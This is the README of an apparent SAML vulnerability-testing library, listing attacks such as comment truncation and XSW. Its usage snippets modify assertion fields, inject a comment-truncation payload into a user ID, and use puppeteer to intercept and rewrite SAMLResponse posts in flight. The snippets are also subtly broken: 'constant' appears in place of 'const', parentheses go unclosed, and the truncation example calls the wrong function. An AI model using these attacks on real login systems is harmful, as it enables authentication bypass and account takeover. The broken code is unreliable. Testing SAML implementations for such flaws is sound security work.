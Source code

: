 # lighthouse-saml-utils

Utilities for SAML processing and testing.

## saml-attacks

Common SAML attacks for vulnerability testing.

### Supported Attacks

- [x] Modify
- [ ] Comment Truncation
- [ ] XSW 1
- [ ] XSW 2
- [ ] XSW 3
- [ ] XSW 4
- [ ] XSW 5
- [ ] XSW 6
- [ ] XSW 7
- [ ] XSW 8

### Usage

**Modify Attack**

```js
const { ModifyAttack } = require("lighthouse-saml-utils");

constant modifiedSaml = await ModifyAttack(xml, 'uid', 'modified')
```

**Comment Truncation Attack**

```js
const { ModifyAttack } = require("lighthouse-saml-utils");

constant modifiedSaml = await ModifyAttack(xml, 'uid', 'te<!-- attack -->st')
```

With puppeteer proxy

```js
const { CommentTruncationAttack } = require("lighthouse-saml-utils");

page.on("request", async (request) => {
  if( request.url().includes(target_url) {
    let post_data = request.postData();
    let saml_response = post_data.SAMLResponse;
    modified_saml_response = CommentTruncationAttack(saml_response, "assertion_field", "comment");
    post_data.SAMLResponse = modified_saml_response;

    await request.continue({
      method: "POST",
      postData: qs.stringify(post_data),
      headers: {
        ...request.headers(),
        "Content-Type": "application/x-www-form-urlencoded",
      }
    };
  } else {
    await request.continue();
  }
})
```
